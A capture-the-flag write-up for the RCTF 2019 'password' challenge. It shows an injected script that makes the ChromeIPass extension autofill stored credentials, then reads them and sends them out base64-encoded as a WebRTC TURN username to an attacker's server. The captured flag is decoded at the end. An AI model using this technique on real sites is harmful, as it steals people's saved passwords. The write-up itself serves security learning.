

Done with https://github.com/patriksletmo

This was a followup to [jail](../jail/Readme.md), so read that one first.

The description hints at a password manager that modifies the page. Lets try adding a login form and returning the resulting page in the same way as before. The only difference beeing that the page is to big for the username field, so we have to slice it and do it in multiple steps.


```html
<script>
    function x() {
        var auth = document.body.innerHTML.slice(-300); // Change the value to get different parts of the page

        function gotDescription(desc) {
            begin = window.performance.now();
            candidates = [];
            pc.setLocalDescription(desc);
        }

        function noDescription(error) {
            console.log('Error creating offer: ', error);
        }
        var pc = new RTCPeerConnection({
            "iceServers": [{
                "urls": ["turn:my.ip.address:3478"],
                "username": btoa(auth),
                "credential": "password1"
            }],
            "iceTransportPolicy": "all",
            "iceCandidatePoolSize": "0"
        });
        pc.createOffer({
            offerToReceiveAudio: 1
        }).then(gotDescription, noDescription);
    }

    function timer() {
        setTimeout(x, 1000);
    }
</script>
<html>

<body onload="timer()">
    <form id="" method="POST"><input type="text" autocomplete="on" name="username" id="username" /><input type="password" autocomplete="on" name="password" id="password" /><input type="submit" value="gö" /> </form>
</body>

</html>
```

This is what the full page looks like in the admins browser

```html
    <form id="" method="POST">
        <input type="text" autocomplete="off" name="username" id="username" data-cip-id="username" class="cip-ui-autocomplete-input"><span role="status" aria-live="polite" class="cip-ui-helper-hidden-accessible"></span>
        <input type="password" autocomplete="on" name="password" id="password" data-cip-id="password">
        <input type="submit" value="g�"> </form>
    <div class="cip-genpw-icon cip-icon-key-small" style="z-index: 2; top: 10px; left: 341px;"></div>
    <div class="cip-ui-dialog cip-ui-widget cip-ui-widget-content cip-ui-corner-all cip-ui-front cip-ui-draggable" tabindex="-1" role="dialog" aria-describedby="cip-genpw-dialog" aria-labelledby="cip-ui-id-1" style="display: none;">
        <div class="cip-ui-dialog-titlebar cip-ui-widget-header cip-ui-corner-all cip-ui-helper-clearfix"><span id="cip-ui-id-1" class="cip-ui-dialog-title">Password Generator</span>
            <button class="cip-ui-button cip-ui-widget cip-ui-state-default cip-ui-corner-all cip-ui-button-icon-only cip-ui-dialog-titlebar-close" role="button" aria-disabled="false" title="�"><span class="cip-ui-button-icon-primary cip-ui-icon cip-ui-icon-closethick"></span><span class="cip-ui-button-text">�</span></button>
        </div>
        <div id="cip-genpw-dialog" class="cip-ui-dialog-content cip-ui-widget-content" style="">
            <div class="cip-genpw-clearfix">
                <button id="cip-genpw-btn-generate" class="b2c-btn b2c-btn-primary b2c-btn-small" style="float: left;">Generate</button>
                <button id="cip-genpw-btn-clipboard" class="b2c-btn b2c-btn-small" style="float: right;">Copy to clipboard</button>
            </div>
            <div class="b2c-input-append cip-genpw-password-frame">
                <input id="cip-genpw-textfield-password" type="text" class="cip-genpw-textfield"><span class="b2c-add-on" id="cip-genpw-quality">123 Bits</span></div>
            <label class="cip-genpw-label">
                <input id="cip-genpw-checkbox-next-field" type="checkbox" class="cip-genpw-checkbox"> also fill in the next password-field</label>
            <button id="cip-genpw-btn-fillin" class="b2c-btn b2c-btn-small">Fill in &amp; copy to clipboard</button>
        </div>
    </div>
    <ul class="cip-ui-autocomplete cip-ui-front cip-ui-menu cip-ui-widget cip-ui-widget-content cip-ui-corner-all" id="cip-ui-id-2" tabindex="0" style="display: none;"></ul>
```

Which matches what the KeePass-compatible ChromeIPass extension generates. 

Apparently the extension only loads the autocomplete once you click on the username field, so we added `document.getElementById('username').click();`

This resulted in the following buttons being added

```html
<a id="cip-ui-id-3" class="cip-ui-corner-all" tabindex="-1">fake_flag (http://jail.2019.rctf.rois.io/)</a></li><li class="cip-ui-menu-item" role="presentation"><a id="cip-ui-id-4" class="cip-ui-corner-all" tabindex="-1">flag (http://jail.2019.rctf.rois.io/)</a>
```

Lets click on it with `document.getElementById('cip-ui-id-4').click()?` and then grab the content of the username and password field with `document.getElementById('username').value+':'+document.getElementById('password').value;`

```console
$ echo ZmxhZzpyY3Rme2twSHR0cF9tNHlfbGVha191cl9wd2R9|base64 -d
flag:rctf{kpHttp_m4y_leak_ur_pwd}
```

[View the full attack script](password.py)